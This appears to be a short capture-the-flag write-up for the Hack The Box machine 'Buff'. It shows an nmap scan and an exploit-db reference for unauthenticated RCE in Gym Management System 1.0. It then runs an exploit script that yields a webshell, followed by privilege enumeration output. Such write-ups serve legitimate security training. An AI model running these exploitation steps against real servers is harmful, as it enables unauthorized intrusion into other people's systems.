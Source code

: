 # Buff

```
root@kali:/home/kali/htb/Buff# nmap -p- -sV -sC 10.129.25.107 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-22 03:01 EDT
Nmap scan report for 10.129.25.107
Host is up (0.036s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 265.75 seconds
```

going to the about page says the server is running on Gym Management System 1.0

Googling this leads to Unauthenticated RCE. https://www.exploit-db.com/exploits/48506

```
root@kali:/home/kali/htb/Buff# python exploit.py http://10.129.25.107:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,                                                               
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG
▒
buff\shaun

C:\xampp\htdocs\gym\upload> whoami /priv 
�PNG
▒

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

C:\xampp\htdocs\gym\upload> 

```
